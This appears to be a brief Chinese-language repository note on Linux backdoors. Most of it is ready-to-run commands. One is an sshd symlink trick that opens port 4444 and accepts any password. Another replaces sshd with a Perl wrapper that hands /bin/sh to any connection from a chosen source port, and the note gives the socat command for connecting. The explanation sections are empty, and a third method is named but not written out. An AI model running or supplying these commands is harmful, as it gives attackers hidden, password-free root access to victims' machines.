



#  Linux下的几种后门
* ssh软链接后门
* ssh-wrapper
* 时间计划

# ssh软件链接后门
在受害机执行：
```
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=4444
```
攻击机链接到受害机
```
ssh root@192.168.1.107 -p 4444
输入任意密码即可登录ssh
```


原理：


# ssh_wrapper
在受害机上执行该sh脚本
```
cd /usr/sbin/
mv sshd ../bin/
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
/etc/init.d/sshd restart
```


在攻击机上使用以下命令链接
```
socat STDIO TCP4:target_ip:22,sourceport=13377
```



原理



Linux后门操作大全：https://blog.csdn.net/qq_33020901/article/details/81773737